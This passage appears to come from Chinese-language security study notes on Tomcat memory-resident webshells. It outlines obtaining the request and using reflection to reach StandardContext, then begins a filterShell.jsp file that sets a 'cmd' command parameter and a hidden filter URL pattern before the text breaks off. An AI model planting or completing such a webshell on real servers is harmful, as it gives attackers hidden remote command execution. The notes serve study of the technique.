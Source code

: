 # 其他

上面的流程大概分为这三步:

获取request->反射获取StandardContext对象->反射修改成员

我们只要获取到了request,就可以完成我们的一系列流程。

但是由于很多框架对于Serlvet进行了封装,不同框架实现不同,同一框架的不同版本实现也可能不同，因此我们无法利用一种简单通用的

方法去获取当前请求的response和request。

这里的话其实还没有进行学习,就简单记录一下

### 方法一:**从线程中获取StandardContext**@

相关文章:https://blog.szfszf.top/article/49/

https://mp.weixin.qq.com/s?__biz=MzI0NzEwOTM0MA==&mid=2652474966&idx=1&sn=1c75686865f7348a6b528b42789aeec8&scene=21#wechat_redirect

filterShell.jsp:

```jsp
<%@ page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%@page language="java" contentType="text/html; charset=UTF-8"
        pageEncoding="UTF-8"%>

<%@page import="com.sun.org.apache.xalan.internal.xsltc.DOM"%>
<%@page import="com.sun.org.apache.xalan.internal.xsltc.TransletException"%>
<%@page import="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"%>
<%@page import="com.sun.org.apache.xml.internal.dtm.DTMAxisIterator"%>
<%@page import="com.sun.org.apache.xml.internal.serializer.SerializationHandler"%>
<%@page import="java.io.File"%>
<%@page import="java.io.IOException"%>
<%@page import="java.lang.reflect.Method"%>
<%@page import="javax.servlet.Filter"%>
<%@page import="javax.servlet.FilterChain"%>
<%@page import="javax.servlet.FilterConfig"%>
<%@page import="javax.servlet.ServletContext" %>
<%@page import="javax.servlet.ServletException"%>

<%@page import="javax.servlet.ServletRequest" %>
<%@page import="javax.servlet.ServletResponse" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>

<%!
    /**
     * webshell命令参数名
     */
    private final String cmdParamName = "cmd";
    /**
     * 建议针对相应业务去修改filter过滤的url pattern
     */
    private final static String filterUrlPattern = "/jrxnm";
    private final static String filterName = "testfilter";

    public class TomcatEchoInject  extends AbstractTranslet {

        public void init(){
```